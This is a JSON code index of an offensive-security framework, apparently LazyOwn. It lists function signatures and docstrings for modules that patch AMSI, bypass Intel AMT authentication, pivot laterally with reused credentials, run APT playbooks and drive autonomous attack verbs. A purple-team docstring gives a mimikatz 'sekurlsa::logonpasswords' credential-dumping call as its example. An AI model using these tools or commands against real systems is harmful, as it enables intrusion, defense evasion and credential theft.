"name": "_chat", "signature": "def _chat(self, messages, max_tokens, stream)"}, {"doc": "Return a single completion for ``prompt``.\n\nArgs:\n    prompt: The full prompt string sent to the server.\n\nReturns:\n    The completion text or a human-readable error string.", "kind": "method", "line": 362, "name": "generate", "signature": "def generate(self, prompt)"}, {"doc": "Yield streamed completion deltas for ``prompt``.\n\nArgs:\n    prompt: The full prompt string sent to the server.\n\nYields:\n    Successive content deltas from the SSE stream.", "kind": "method", "line": 382, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"doc": "Role-aware completion through the chat endpoint.", "kind": "method", "line": 413, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 440, "name": "__init__", "signature": "def __init__(self, api_key, model)"}, {"kind": "method", "line": 444, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 455, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 470, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 499, "name": "__init__", "signature": "def __init__(self, api_key, model)"}, {"kind": "method", "line": 503, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 515, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 529, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 556, "name": "__init__", "signature": "def __init__(self, api_key, model)"}, {"kind": "method", "line": 563, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 574, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 589, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}]}, {"doc": "¡Gracias a Saad!", "id": "modules/amsi.c", "kind": "module", "label": "amsi.c", "language": "c", "sha256": "5fcbd7edc8cacf37", "symbol_count": 10, "symbols": [{"doc": "Función para cargar las funciones dinámicamente", "kind": "function", "line": 38, "name": "LoadNtFunctions", "signature": "void LoadNtFunctions()"}, {"doc": "Técnica de Saad, también conocido como @D1rkMtr (https://twitter.com/D1rkMtr/) (https://github.com/TheD1rkMtr/AMSI_patch) 1", "kind": "function", "line": 66, "name": "AMS1patch_OpenSession_jne", "signature": "void AMS1patch_OpenSession_jne(HANDLE hproc)"}, {"doc": "2", "kind": "function", "line": 116, "name": "AMS1patch_OpenSession_ret", "signature": "void AMS1patch_OpenSession_ret(HANDLE hproc)"}, {"doc": "3", "kind": "function", "line": 166, "name": "AMS1patch_ScanBuffer_ret", "signature": "void AMS1patch_ScanBuffer_ret(HANDLE hproc)"}, {"doc": "4", "kind": "function", "line": 215, "name": "AMS1patch_RastaMouse", "signature": "void AMS1patch_RastaMouse(HANDLE hproc)"}, {"doc": "5", "kind": "function", "line": 274, "name": "AMS1patch_E_ACCESSDENIED", "signature": "void AMS1patch_E_ACCESSDENIED(HANDLE hproc)"}, {"doc": "6", "kind": "function", "line": 326, "name": "AMS1patch_E_HANDLE", "signature": "void AMS1patch_E_HANDLE(HANDLE hproc)"}, {"doc": "7", "kind": "function", "line": 378, "name": "AMS1patch_E_OUTOFMEMORY", "signature": "void AMS1patch_E_OUTOFMEMORY(HANDLE hproc)"}, {"kind": "function", "line": 428, "name": "main", "signature": "int main(int argc, char** argv)"}, {"kind": "macro", "line": 11, "name": "NT_SUCCESS", "signature": "#define NT_SUCCESS(Status)"}]}, {"id": "modules/amt_auth_bypass.py", "kind": "module", "label": "amt_auth_bypass.py", "language": "py", "sha256": "e691628da3aacedd", "symbol_count": 3, "symbols": [{"kind": "function", "line": 4, "name": "start", "signature": "def start()"}, {"kind": "class", "line": 8, "name": "BlankAuthResponse", "signature": "class BlankAuthResponse"}, {"kind": "method", "line": 11, "name": "request", "signature": "def request(self, flow)"}]}, {"doc": "APT Playbook Engine — map public APT reports to executable Atomic Red Team chains.  This module reads enriched playbooks from ``playbooks/apt_*.yaml`` and provides execution, validation, and reporting without touching ``lazyown.py`` internals.  Playbook schema (enriched): apt_name: str aliases: list[str] source_urls: list[str] description: str platforms: list[str] phases: - name: str            # e.g. initial_access, persistence, privilege_escalation technique_id: str     # MITRE ATT&CK technique (e.g. T1566.001) technique_name: str description: str atomic_tests: - atomic_id: str    # ART auto_generated_guid name: str manual: bool      # If true, operator must paste command interactively caldera_abilities:    # Optional CALDERA ability IDs - ability_id: str detection_hints: list[str]", "id": "modules/apt_playbooks.py", "kind": "module", "label": "apt_playbooks.py", "language": "py", "sha256": "777e174246addb9f", "symbol_count": 15, "symbols": [{"kind": "class", "line": 41, "name": "AtomicTestRef", "signature": "class AtomicTestRef"}, {"kind": "class", "line": 48, "name": "CalderaAbilityRef", "signature": "class CalderaAbilityRef"}, {"kind": "class", "line": 54, "name": "PhaseStep", "signature": "class PhaseStep"}, {"kind": "class", "line": 65, "name": "AptPlaybook", "signature": "class AptPlaybook"}, {"doc": "Load, list, validate and execute APT playbooks.", "kind": "class", "line": 111, "name": "AptPlaybookEngine", "signature": "class AptPlaybookEngine"}, {"kind": "method", "line": 74, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 99, "name": "to_summary", "signature": "def to_summary(self)"}, {"kind": "method", "line": 114, "name": "__init__", "signature": "def __init__(self, playbook_dir)"}, {"kind": "method", "line": 119, "name": "_load_all", "signature": "def _load_all(self)"}, {"kind": "method", "line": 131, "name": "list_playbooks", "signature": "def list_playbooks(self)"}, {"kind": "method", "line": 134, "name": "get", "signature": "def get(self, name)"}, {"doc": "Validate that all referenced atomic tests exist locally.", "kind": "method", "line": 138, "name": "validate", "signature": "def validate(self, pb, atomic_path)"}, {"kind": "method", "line": 175, "name": "_build_atomic_index", "signature": "def _build_atomic_index(self, atomic_yaml_path)"}, {"doc": "Generate a legacy ``attack_plan.yaml`` from an enriched APT playbook.", "kind": "method", "line": 189, "name": "generate_attack_plan", "signature": "def generate_attack_plan(self, pb, output_path)"}, {"doc": "Write a structured JSON report of the playbook for the operator.", "kind": "method", "line": 204, "name": "report_json", "signature": "def report_json(self, pb, output_path)"}]}, {"doc": "Global asset truth store joined to per-task exploration chains.  Ports the LAZY dual-graph contract. Asset nodes deduplicate by a computed key. Exploration nodes form intent, fact, and finding chains. Anchors join the two graphs in both directions for coverage queries.", "id": "modules/asset_graph.py", "kind": "module", "label": "asset_graph.py", "language": "py", "sha256": "28b1f90ebc93101d", "symbol_count": 17, "symbols": [{"doc": "Centralized constants for graph behavior.", "kind": "class", "line": 17, "name": "GraphConfig", "signature": "class GraphConfig"}, {"doc": "Compute the stable deduplication key for an asset.", "kind": "function", "line": 28, "name": "asset_key", "signature": "def asset_key(asset_type, value, parent_key)"}, {"doc": "Single truth asset in the global graph.", "kind": "class", "line": 36, "name": "AssetNode", "signature": "class AssetNode"}, {"doc": "Single step in a task exploration chain.", "kind": "class", "line": 50, "name": "ExplorationNode", "signature": "class ExplorationNode"}, {"doc": "Join between an exploration node and an asset node.", "kind": "class", "line": 63, "name": "Anchor", "signature": "class Anchor"}, {"doc": "Thread-safe dual graph with bidirectional anchor lookup.", "kind": "class", "line": 70, "name": "AssetGraph", "signature": "class AssetGraph"}, {"doc": "Report tested scope assets versus total scope from the campaign db.\n\nThe scope is the explicit target list (never inferred). An address\ncounts as tested when present in the workspace hosts.", "kind": "function", "line": 214, "name": "coverage_for", "signature": "def coverage_for(db, workspace_id, scope)"}, {"doc": "Initialize empty graphs and anchor indexes.", "kind": "method", "line": 73, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Insert or refresh an asset and return the canonical node.", "kind": "method", "line": 82, "name": "upsert_asset", "signature": "def upsert_asset(self, asset_type, value, parent_key, company)"}, {"doc": "Append an exploration node to a task chain.", "kind": "method", "line": 108, "name": "add_node", "signature": "def add_node(self, task_id, kind, text, parent_id, payload)"}, {"doc": "Append a fact node to a task chain.", "kind": "method", "line": 123, "name": "add_fact", "signature": "def add_fact(self, task_id, text, parent_id, payload)"}, {"doc": "Append a finding node to a task chain.", "kind": "method", "line": 128, "name": "add_finding", "signature": "def add_finding(self, task_id, text, parent_id, payload)"}, {"doc": "Link an exploration node to an asset key.", "kind": "method", "line": 133, "name": "anchor", "signature": "def anchor(self, exploration_id, key)"}, {"doc": "List assets anchored to one exploration node.", "kind": "method", "line": 145, "name": "assets_for_node", "signature": "def assets_for_node(self, exploration_id)"}, {"doc": "List exploration nodes anchored to one asset.", "kind": "method", "line": 151, "name": "nodes_for_asset", "signature": "def nodes_for_asset(self, key)"}, {"doc": "Report tested versus total assets for a task.", "kind": "method", "line": 157, "name": "coverage", "signature": "def coverage(self, task_id)"}, {"doc": "Mirror graph assets into the campaign database and world model.\n\nDeduplicated graph nodes become db hosts/services and world model\nhosts, so the existing db_hosts/vuln_list/sitrep surfaces show\nthem. Returns counts of mirrored hosts and services.", "kind": "method", "line": 170, "name": "mirror_to_campaign", "signature": "def mirror_to_campaign(self, db, world_model, workspace_id)"}]}, {"doc": "atomic_enricher.py — Enrich techniques.parquet with structured derived columns.  Reads  parquets/techniques.parquet  (1690 Atomic Red Team tests, already present) Writes parquets/techniques_enriched.parquet  (same rows + 6 new columns)  New columns ----------- platform_list : List[str]   normalised platform list  ['linux','windows','macos',...] scope         : str          'local' | 'remote' | 'elevated' | 'any' has_prereqs   : bool         prereq_command is non-empty complexity    : str          'low' | 'medium' | 'high'  (from command line count) tactic_prefix : str          'T1003' extracted from mitre_id 'T1003.007' keyword_tags  : List[str]    top meaningful tokens from name (stop-words removed)  Public API ---------- enrich()        -> pd.DataFrame   build enriched dataframe + save load_enriched() -> pd.DataFrame   load existing enriched parquet (build if missing)", "id": "modules/atomic_enricher.py", "kind": "module", "label": "atomic_enricher.py", "language": "py", "sha256": "95894b9fd2f958c0", "symbol_count": 9, "symbols": [{"doc": "Convert numpy array / list / string platform field → sorted list.", "kind": "function", "line": 122, "name": "_parse_platforms", "signature": "def _parse_platforms(raw)"}, {"kind": "function", "line": 135, "name": "_parse_scope", "signature": "def _parse_scope(name)"}, {"kind": "function", "line": 142, "name": "_parse_complexity", "signature": "def _parse_complexity(command)"}, {"kind": "function", "line": 152, "name": "_parse_keyword_tags", "signature": "def _parse_keyword_tags(name, description)"}, {"kind": "function", "line": 164, "name": "_tactic_prefix", "signature": "def _tactic_prefix(mitre_id)"}, {"doc": "Build enriched parquet.  Skips if DST_PARQUET already exists (use force=True to rebuild).\nReturns the enriched DataFrame.", "kind": "function", "line": 173, "name": "enrich", "signature": "def enrich(force)"}, {"doc": "Normalise numpy array / list / None → plain Python list of strings.", "kind": "function", "line": 204, "name": "_to_pylist", "signature": "def _to_pylist(val)"}, {"doc": "Load enriched parquet, building it first if it doesn't exist.\nNormalises list columns to plain Python lists after loading.", "kind": "function", "line": 215, "name": "load_enriched", "signature": "def load_enriched()"}, {"doc": "Structured query over the enriched Atomic Red Team technique catalogue.\n\nParameters\n----------\nkeyword      : free-text search over name + description + keyword_tags\nmitre_id     : exact match OR prefix (e.g. \"T1059\" matches T1059, T1059.001, …)\nplatform     : 'linux' | 'windows' | 'macos' | 'freebsd' | 'cloud'\nscope        : 'local' | 'remote' | 'elevated' | 'any'\nhas_prereqs  : True → only tests with prerequisites; False → no prereqs needed\ncomplexity   : 'low' | 'medium' | 'high'\nlimit        : max results (default 10)\ninclude_command : include the raw command text in results\n\nReturns\n-------\nList of dicts with keys:\n    id, name, mitre_id, tactic_prefix, platform_list, scope,\n    complexity, has_prereqs, keyword_tags,\n    description_preview (first 200 chars),\n    command_preview     (first 300 chars, only if include_command=True)", "kind": "function", "line": 232, "name": "query_atomic", "signature": "def query_atomic(keyword, mitre_id, platform, scope, has_prereqs, complexity, limit, include_command)"}]}, {"doc": "Attack-surface 3D intel module: C2-centred campaign graph.  Fuses the live attack surface (``cli.surface_graph``: C2 root, implants, discovered hosts, open ports, services) with the campaign intel fusion (``modules.intel_fusion``: objectives, findings, loop tasks, session-log mentions) into ONE heterogeneous graph rendered with the ReadMenator node engine (force 2D/3D, circular bundles, spherical view).  Inspiration mapping (kept, not copied): - estorides entity resolution -> hosts merged by IP across surface scans, world model and logs; corroborating artefacts tagged per node. - CAIRN explorer (Cisco-Talos) toggles/hulls/analytics -> type pills, community halos, top-exposed ranking feeding ``intel_summary.json``. - ReadMenator force/bundle explorers -> verbatim node engine, physics sizes, glyphs, legend and inspector; only the data adapters differ.  The reverse leg closes the loop: :func:`refresh_summary` scores host exposure into ``sessions/intel_summary.json``, which the autonomous planner consumes, turning session data into information and information into intelligence on every request.", "id": "modules/attack_surface3d.py", "kind": "module", "label": "attack_surface3d.py", "language": "py", "sha256": "3e5754a5961c6cba", "symbol_count": 11, "symbols": [{"doc": "Stable dusty HSL color from a community name (djb2, ReadMenator).", "kind": "function", "line": 100, "name": "_family_color", "signature": "def _family_color(name)"}, {"doc": "PageRank over node ids (same contract as ReadMenator rank).", "kind": "function", "line": 111, "name": "_pagerank", "signature": "def _pagerank(ids, pairs, alpha, max_iter, tol)"}, {"doc": "Return the dotted IP a surface node belongs to, or \"\".", "kind": "function", "line": 141, "name": "_host_of", "signature": "def _host_of(node)"}, {"doc": "Fuse surface scans with campaign intel into one C2-centred graph.", "kind": "function", "line": 147, "name": "build_attack_graph", "signature": "def build_attack_graph(sessions_dir, payload_path, est_cap)"}, {"doc": "Map every intel node id to its merged attack-graph id.", "kind": "function", "line": 315, "name": "_intel_id_map", "signature": "def _intel_id_map(intel, key_to_id)"}, {"doc": "Bounded purpose string for the inspector.", "kind": "function", "line": 327, "name": "_doc", "signature": "def _doc(node)"}, {"doc": "Compact symbol records for the inspector (max 40).", "kind": "function", "line": 346, "name": "_symbols", "signature": "def _symbols(node)"}, {"doc": "Add ReadMenator explorer fields in place (type/layer/rank/doc).", "kind": "function", "line": 365, "name": "_enrich", "signature": "def _enrich(nodes, edges)"}, {"doc": "Score exposure into intel_summary.json for the autonomous loop.", "kind": "function", "line": 460, "name": "refresh_summary", "signature": "def refresh_summary(graph, sessions_dir)"}, {"doc": "Append one provenance-tagged relation between known nodes.", "kind": "function", "line": 155, "name": "add_edge", "signature": "def add_edge(src, dst, kind, evidence, weight)"}, {"doc": "Record a corroborating artefact on a node, deduped.", "kind": "function", "line": 166, "name": "tag", "signature": "def tag(nid, source)"}]}, {"doc": "Auto-Pivoting Engine for LazyOwn.  Automated lateral movement through compromised hosts: - Multi-hop SOCKS proxy chaining - Subnet discovery via compromised host perspective - Route maintenance with health checks - Automatic credential re-use across hops", "id": "modules/auto_pivot.py", "kind": "module", "label": "auto_pivot.py", "language": "py", "sha256": "3fddfaf4d4138e7d", "symbol_count": 23, "symbols": [{"kind": "class", "line": 23, "name": "PivotNode", "signature": "class PivotNode"}, {"kind": "class", "line": 39, "name": "PivotChain", "signature": "class PivotChain"}, {"doc": "Manages automated pivoting through compromised hosts.\n\nAttributes:\n    config: Reference to payload.json configuration.\n    sessions_dir: Directory for persisting pivot state.", "kind": "class", "line": 47, "name": "AutoPivotEngine", "signature": "class AutoPivotEngine"}, {"kind": "method", "line": 73, "name": "__init__", "signature": "def __init__(self, config)"}, {"kind": "method", "line": 82, "name": "set_config", "signature": "def set_config(self, config)"}, {"kind": "method", "line": 85, "name": "_next_port", "signature": "def _next_port(self)"}, {"kind": "method", "line": 90, "name": "add_pivot_node", "signature": "def add_pivot_node(self, ip, access_type, credential_id, hostname)"}, {"kind": "method", "line": 120, "name": "remove_pivot_node", "signature": "def remove_pivot_node(self, ip)"}, {"kind": "method", "line": 128, "name": "discover_subnets", "signature": "def discover_subnets(self, node_ip, command_output)"}, {"kind": "method", "line": 146, "name": "build_chain", "signature": "def build_chain(self, target_ip, via_nodes, subnet)"}, {"kind": "method", "line": 177, "name": "generate_proxychains_config", "signature": "def generate_proxychains_config(self, chain_id)"}, {"kind": "method", "line": 203, "name": "generate_sshuttle_command", "signature": "def generate_sshuttle_command(self, node_ip, subnet)"}, {"kind": "method", "line": 206, "name": "generate_chisel_command", "signature": "def generate_chisel_command(self, target_ip, local_port)"}, {"kind": "method", "line": 212, "name": "generate_ssh_socks_command", "signature": "def generate_ssh_socks_command(self, node_ip, local_port)"}, {"kind": "method", "line": 216, "name": "health_check", "signature": "def health_check(self, node_ip)"}, {"kind": "method", "line": 237, "name": "health_check_all", "signature": "def health_check_all(self)"}, {"kind": "method", "line": 243, "name": "get_active_routes", "signature": "def get_active_routes(self)"}, {"kind": "method", "line": 259, "name": "get_reachable_hosts", "signature": "def get_reachable_hosts(self, node_ip)"}, {"kind": "method", "line": 267, "name": "set_reachable_hosts", "signature": "def set_reachable_hosts(self, node_ip, hosts)"}, {"kind": "method", "line": 272, "name": "set_route_priority", "signature": "def set_route_priority(self, node_ip, priority)"}, {"kind": "method", "line": 277, "name": "_persist_state", "signature": "def _persist_state(self)"}, {"kind": "method", "line": 314, "name": "_load_state", "signature": "def _load_state(self)"}, {"kind": "method", "line": 352, "name": "suggest_next_pivot", "signature": "def suggest_next_pivot(self)"}]}, {"doc": "Purple Team Closed-Loop — honest measurement of offensive detection.  Orchestrates the cycle: execute red action -> measure with LazyOwnBT (blue) -> record real results -> generate ML training datasets -> calibrate oracle.  Every engagement produces a CSV dataset that LazyOwnBT can ingest to improve its RandomForest detection model. This is a genuine feedback loop, not static probability guessing.  Design principles ----------------- - Single Responsibility : purple loop orchestration only - Open/Closed           : new detection methods added via _DETECTION_METHODS - Dependency Inversion  : callers depend on IPurpleLoop, not PurpleTeamLoop - Interface Segregation : read-only IPurpleEvaluator vs read-write IPurpleLoop - No secrets            : config from payload.json, paths from sessions/  Usage ----- from modules.auto_purple import get_loop  loop = get_loop() result = loop.execute_and_measure(\"mimikatz\", \"sekurlsa::logonpasswords\", \"credential\") print(f\"Detected: {result.actually_detected}  Oracle predicted: {result.oracle_prediction:.0%}\")", "id": "modules/auto_purple.py", "kind": "module", "label": "auto_purple.py", "language": "py", "sha256": "abc4107621539e5a", "symbol_count": 40, "symbols": [{"doc": "Describes one LazyOwnBT detection surface.", "kind": "class", "line": 72, "name": "DetectionMethod", "signature": "class DetectionMethod"}, {"doc": "Result of a single red action measurement.", "kind": "class", "line": 132, "name": "PurpleResult", "signature": "class PurpleResult"}, {"doc": "Aggregated detection score for an engagement.", "kind": "class", "line": 165, "name": "PurpleScore", "signature": "class PurpleScore"}, {"doc": "Read-write contract for purple team orchestration.", "kind": "class", "line": 181, "name": "IPurpleLoop", "signature": "class IPurpleLoop(ABC)"}, {"doc": "Read-only contract for evaluation queries.", "kind": "class", "line": 210, "name": "IPurpleEvaluator", "signature": "class IPurpleEvaluator(ABC)"}, {"doc": "Execute a LazyOwnBT CLI command via PTY subprocess.\n\nSame pattern as skills/lazyownbt_mcp.py._run_lazyownbt_command.", "kind": "function", "line": 225, "name": "_run_bt_command", "signature": "def _run_bt_command(bt_path, command, timeout)"}, {"doc": "Parse LazyOwnBT ai_test output. Only True if model says 'malicious'.", "kind": "function", "line": 329, "name": "_parse_ai_test", "signature": "def _parse_ai_test(output, command, args)"}, {"doc": "Check if the command/args appear in the detection output as flagged.", "kind": "function", "line": 342, "name": "_parse_keyword_match", "signature": "def _parse_keyword_match(output, command, args)"}, {"doc": "Check if log analysis produced alerts related to our action.", "kind": "function", "line": 374, "name": "_parse_alert_check", "signature": "def _parse_alert_check(output, command, args)"}, {"doc": "FIM detects only if files were actually modified.", "kind": "function", "line": 388, "name": "_parse_fim_check", "signature": "def _parse_fim_check(output, command, args)"}, {"doc": "Closed-loop purple team orchestrator.\n\nExecutes red team actions, measures real detection via LazyOwnBT,\ngenerates CSV datasets for ML training, and calibrates the DetectionOracle.", "kind": "class", "line": 407, "name": "PurpleTeamLoop", "signature": "class PurpleTeamLoop(IPurpleLoop, IPurpleEvaluator)"}, {"doc": "Return (or create) the module-level PurpleTeamLoop singleton.", "kind": "function", "line": 772, "name": "get_loop", "signature": "def get_loop(bt_path, detection_delay, methods, auto_feedback)"}, {"doc": "Extract purple_team config from payload.json params dict.\n\nReturns a dict with keys: enabled, bt_path, detection_delay,\nmethods, auto_feedback, score_threshold.", "kind": "function", "line": 790, "name": "load_config_from_payload", "signature": "def load_config_from_payload(params)"}, {"doc": "Serialize to a flat dict suitable for CSV writer.", "kind": "method", "line": 146, "name": "to_csv_row", "signature": "def to_csv_row(self)"}, {"kind": "method", "line": 160, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 185, "name": "execute_and_measure", "signature": "def execute_and_measure(self, command, args, category)"}, {"kind": "method", "line": 193, "name": "measure_only", "signature": "def measure_only(self, command, args, category)"}, {"kind": "method", "line": 201, "name": "engagement_score", "signature": "def engagement_score(self)"}, {"kind": "method", "line": 204, "name": "export_dataset", "signature": "def export_dataset(self)"}, {"kind": "method", "line": 207, "name": "export_report", "signature": "def export_report(self)"}, {"kind": "method", "line": 214, "name": "last_results", "signature": "def last_results(self, n)"}, {"kind": "method", "line": 217, "name": "category_accuracy", "signature": "def category_accuracy(self, category)"}, {"kind": "method", "line": 414, "name": "__init__", "signature": "def __init__(self, bt_path, detection_delay, methods, auto_feedback, session_id)"}, {"doc": "Create CSV header if dataset file does not exist.", "kind": "method", "line": 433, "name": "_init_dataset", "signature": "def _init_dataset(self)"}, {"doc": "Execute a red action and measure if LazyOwnBT detects it.", "kind": "method", "line": 443, "name": "execute_and_measure", "signature": "def execute_and_measure(self, command, args, category)"}, {"doc": "Measure without executing — test if BT would detect the command.", "kind": "method", "line": 493, "name": "measure_only", "signature": "def measure_only(self, command, args, category)"}, {"doc": "Aggregate detection score from all results in this session.", "kind": "method", "line": 529, "name": "engagement_score", "signature": "def engagement_score(self)"}, {"doc": "Return the path to the CSV dataset file.", "kind": "method", "line": 567, "name": "export_dataset", "signature": "def export_dataset(self)"}, {"doc": "Generate a full engagement report.", "kind": "method", "line": 571, "name": "export_report", "signature": "def export_report(self)"}, {"kind": "method", "line": 596, "name": "last_results", "signature": "def last_results(self, n)"}, {"kind": "method", "line": 599, "name": "category_accuracy", "signature": "def category_accuracy(self, category)"}, {"doc": "Execute a red team command via LazyOwn's run_command.", "kind": "method", "line": 614, "name": "_execute_red", "signature": "def _execute_red(self, command, args)"}, {"doc": "Query each enabled LazyOwnBT detection method.", "kind": "method", "line": 635, "name": "_query_blue", "signature": "def _query_blue(self, command, args)"}, {"doc": "Hash red output for dataset dedup.", "kind": "method", "line": 687, "name": "_hash_output", "signature": "def _hash_output(self, output)"}, {"doc": "Append to JSONL audit log.", "kind": "method", "line": 693, "name": "_write_audit", "signature": "def _write_audit(self, result)"}, {"doc": "Append a row to the CSV dataset for ML training.", "kind": "method", "line": 698, "name": "_append_dataset", "signature": "def _append_dataset(self, result)"}, {"doc": "Write detection feedback for oracle calibration.\n\nFormat matches detection_feed.py expectations:\n    {\"rule_id\": ..., \"detected\": bool, \"actual\": bool}", "kind": "method", "line": 704, "name": "_write_feedback", "signature": "def _write_feedback(self, result)"}, {"doc": "Load results from JSONL audit file.", "kind": "method", "line": 724, "name": "_load_audit", "signature": "def _load_audit(self)"}, {"doc": "Compute how well oracle predictions match real detections.", "kind": "method", "line": 739, "name": "_compute_oracle_accuracy", "signature": "def _compute_oracle_accuracy(self)"}, {"doc": "Return available detection methods for display.", "kind": "method", "line": 759, "name": "_get_detection_methods", "signature": "def _get_detection_methods(self)"}]}, {"doc": "Registry of loop-ready automation verbs (the ``auto_*`` family).  Every entry is a LazyOwn shell command that is already fully automated (``auto_pwn``, ``autopivot``, ``automsf``, ``autoblody``, ``auto_populate``, ``pyautomate`` — the ``pwntomate`` engine underneath). The autonomous loop consults this registry in two places:  - planning: :func:`propose_intents` turns scope + goal keywords into ``auto <verb>`` intents the planner can claim like any other intent; - execution: :func:`steps_for` translates those intents back into the concrete shell command line, and :func:`execute_shell_verb` runs shell verbs with captured output inside the loop executor.  Stdlib only: ``lazy_loop`` may import this without dependency cycles.", "id": "modules/auto_registry.py", "kind": "module", "label": "auto_registry.py", "language": "py", "sha256": "d01951bd29cf7522", "symbol_count": 37, "symbols": [{"doc": "Return the target an ``auto <verb> <target>`` line carries, else ''.\n\nAuto verbs historically read ``payload.json`` (rhost); the loop\nbinds each intent to its own target, so the executor overrides the\npayload for the duration of the verb under a lock. Routable verbs\nlike ``lazynmap`` carry the target the same way.", "kind": "function", "line": 35, "name": "auto_verb_target", "signature": "def auto_verb_target(command)"}, {"doc": "One automation verb the loop may invoke autonomously.\n\nArgs:\n    verb: Canonical shell verb (``do_<verb>`` must exist).\n    phases: Kill-chain phases this verb serves.\n    keywords: Intent/goal signals that select this verb.\n    needs_target: When True the built line carries the loop target.\n    extra_args: Fixed tail args appended after the target.\n    description: Human/operators note shown in intent text.", "kind": "class", "line": 66, "name": "AutoVerb", "signature": "class AutoVerb"}, {"doc": "Merged auto-verb rows (built-ins + operator overrides) as objects.\n\nEach row exposes the historical ``AutoVerb`` attributes (``verb``,\n``phases``, ``keywords``, ``needs_target``, ``extra_args``,\n``description``) plus ``enabled`` and ``source`` so existing callers\nkeep working while the orchestrator config decides what is live.", "kind": "function", "line": 136, "name": "_verb_rows", "signature": "def _verb_rows()"}, {"doc": "Return one merged auto-verb row by name, or None.", "kind": "function", "line": 180, "name": "_verb_row", "signature": "def _verb_row(name)"}, {"doc": "Return whether one auto verb may be proposed or executed.", "kind": "function", "line": 189, "name": "verb_enabled", "signature": "def verb_enabled(name)"}, {"doc": "Return repository root without importing engine modules.", "kind": "function", "line": 274, "name": "_repo_base", "signature": "def _repo_base()"}, {"doc": "Return True when a command token can actually execute here.\n\nShell builtins, repo-local scripts and explicit paths pass so the\ncheck only flags standalone offensive tools missing from ``PATH``.", "kind": "function", "line": 281, "name": "binary_available", "signature": "def binary_available(name)"}, {"doc": "Return the first binary a shell command needs but PATH lacks.", "kind": "function", "line": 297, "name": "missing_binary", "signature": "def missing_binary(command)"}, {"doc": "Return a human reason when an automation verb cannot run, else ''.", "kind": "function", "line": 309, "name": "verb_gap", "signature": "def verb_gap(verb)"}, {"doc": "Return True when every binary an automation verb needs is installed.", "kind": "function", "line": 321, "name": "verb_available", "signature": "def verb_available(verb)"}, {"doc": "Normalize a service asset value into matchable tokens.", "kind": "function", "line": 326, "name": "service_tokens", "signature": "def service_tokens(service_text)"}, {"doc": "Parse a YAML trigger value starting at line index.\n\nHandles inline ``[a, b]`` / ``[\"a\"]`` / scalar forms plus dash\nlists on the following lines. Returns tokens and next index.", "kind": "function", "line": 337, "name": "_parse_trigger_lines", "signature": "def _parse_trigger_lines(lines, start)"}, {"doc": "Scan enabled lazyaddons for (name, trigger tokens) pairs.", "kind": "function", "line": 368, "name": "iter_addon_triggers", "signature": "def iter_addon_triggers()"}, {"doc": "Scan active pwntomate tools for (toolname, trigger tokens) pairs.", "kind": "function", "line": 404, "name": "iter_tool_triggers", "signature": "def iter_tool_triggers()"}, {"doc": "Rank addon/tool names matching one service value.\n\nSpecific trigger matches rank before ``all`` wildcards so generic\npacks never crowd out service-tailored modules.", "kind": "function", "line": 427, "name": "addon_hits_for", "signature": "def addon_hits_for(service_text, limit)"}, {"doc": "Propose addon intents for discovered services.\n\nLazyaddons run one-to-one via ``lazy addon <name>``; pwntomate tool\nhits collapse into a single ``auto pyautomate`` intent since tools\nonly execute as a batch over nmap XML.", "kind": "function", "line": 453, "name": "propose_addon_intents", "signature": "def propose_addon_intents(service_texts, target, limit)"}, {"doc": "Return True when the loop executor must route via the shell.", "kind": "function", "line": 479, "name": "is_routable_command", "signature": "def is_routable_command(line)"}, {"doc": "Return every canonical automation verb name.", "kind": "function", "line": 497, "name": "verbs", "signature": "def verbs()"}, {"doc": "Return True when ``token`` names a loop-routable shell verb.\n\nBuilt-in auto verbs always route. When full-CLI mode is enabled any\nreal ``do_<verb>`` shell command routes as well, so the loop reaches\nthe whole cmd2 surface through the same Guard and scope path.", "kind": "function", "line": 502, "name": "is_shell_verb", "signature": "def is_shell_verb(token)"}, {"doc": "Build the shell command line for ``verb`` bound to ``target``.", "kind": "function", "line": 524, "name": "build_command", "signature": "def build_command(verb, target)"}, {"doc": "Return enabled verbs whose keywords appear in the text.", "kind": "function", "line": 535, "name": "verbs_for", "signature": "def verbs_for(text)"}, {"doc": "Propose ``auto <verb>`` intent summaries for planner candidates.\n\nVerbs whose required binaries are not installed are skipped so the\nplanner never dispatches work this host cannot execute.", "kind": "function", "line": 541, "name": "propose_intents", "signature": "def propose_intents(goal, target, finding_texts)"}, {"doc": "Translate an intent summary into shell command lines, or None.\n\nHandles the explicit ``auto <verb>`` form, the ``lazy addon <name>``\nform from service-trigger matching, plus the implicit keyword\nsignals for exploit/pivot/privesc/msf/populate work. Returns None\nwhen the intent carries no automation signal (caller keeps its\ndefault bash probes) or when the verb's tooling is unavailable.", "kind": "function", "line": 558, "name": "steps_for", "signature": "def steps_for(text, target)"}, {"doc": "Captured outcome of one shell-verb execution.", "kind": "class", "line": 642, "name": "ShellResult", "signature": "class ShellResult"}, {"doc": "StringIO that forwards every write chunk to an observer.\n\nThe observer frequently prints (progress panels, streamers) and it\nruns while ``stdout`` is redirected to *this* buffer, so an observer\nprinting to stdout would recurse into ``write`` forever. A per-thread\nreentrancy flag stops the cycle: nested writes still land in the\nbuffer, but the observer is only invoked on the outermost write.", "kind": "class", "line": 649, "name": "_TeeCapture", "signature": "class _TeeCapture(StringIO)"}, {"doc": "Run a LazyOwn shell verb capturing stdout, with a hard timeout.\n\nUses the same redirect+thread pattern as the agent runner: the verb\nruns off-thread so a hanging automation (listener, prompt) cannot\nwedge the loop. Never raises; timeouts report as text the loop can\nrecord as a fact like any other transcript.\n\nArgs:\n    shell: Live LazyOwn shell.\n    command: Routable shell verb line.\n    timeout_sec: Hard timeout for the background verb.\n    on_output: Optional callback receiving output chunks live so the\n        operator watches colored tool output 